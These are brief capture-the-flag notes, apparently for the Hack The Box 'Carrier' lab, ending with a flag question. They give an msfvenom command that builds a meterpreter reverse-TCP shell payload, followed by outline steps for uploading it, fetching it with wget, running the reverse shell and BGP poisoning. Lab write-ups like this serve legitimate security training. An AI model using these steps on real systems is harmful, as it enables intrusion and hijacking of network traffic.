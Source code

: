 msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=172.16.1.10 -f elf -o shell

upload using meterpreter to web app machine

download using wget on router

set up listener to use 172.16.1.10

run handler

run reverse shell

Setup SSH

Fix SSH

BGP Poison

tcpdump

https://snowscan.io/htb-writeup-carrier/


## Question 7: What flag is transmitted from flag_server to flag_client over TCP? {FLAG:TCP:XXX}